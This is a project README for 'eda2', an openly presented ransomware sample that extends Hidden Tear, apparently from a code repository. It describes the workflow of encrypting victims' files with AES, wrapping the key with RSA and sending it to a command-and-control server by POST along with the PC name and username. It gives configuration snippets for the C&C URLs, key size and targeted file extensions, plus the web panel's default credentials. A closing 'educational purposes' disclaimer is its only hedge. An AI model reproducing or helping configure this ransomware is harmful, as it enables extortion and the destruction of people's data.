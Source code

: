                   _       ___  
                 | |     |__ \ 
          ___  __| | __ _   ) |
         / _ \/ _` |/ _` | / / 
        |  __/ (_| | (_| |/ /_ 
         \___|\__,_|\__,_|____|

It's a ransomware-like file crypter sample which can be modified for specific purposes. It's more extended version of hidden tear.

**Features**

* Uses both RSA and AES algorithms.
* Coordinates with a Command&Control server.
* Uses CSPRNG
* Uses phplibsec
* Encrypted files can be decrypted in decryption program with encryption key.
* Changes desktop background.

**Demonstration Video**

https://www.youtube.com/watch?v=PD16u1Rz2QI

**Workflow**

* Program sends a POST request to the C&C server with pcname and username variables.
* C&C server creates RSA public/private key pair. Sends public key to the program, saves private key inside the Mysql database
* Program creates a random key for AES algorithm
* Program encrypts files with AES algorithm
* Program encrypts AES key with RSA public key and sends it to the C&C server with POST request
* C&C server saves encrypted AES key inside the Mysql Database

**Usage**

* You need to have a web server which runs Php and Mysql. Change this line with your URL

  ```
  string generatorUrl = "http://www.example.com/panel/createkeys.php"; 
  string keySaveUrl = "http://www.example.com/panel/savekey.php"; 
  ```
  
* It uses 2048 as RSA key size. You can change it

  `const int keySize = 2048;`



* Target file extensions can be change. Default list:

  ```
  var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png",     ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
  ```

* Edit your database settings in db.php
* Default login credentials for web panel: username:test password:test
* You can use Hidden Tear's decryption program to decrypt files.

## Legal Warning

While this may be helpful for some, there are significant risks. eda2 may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running eda2, even though you are innocent.
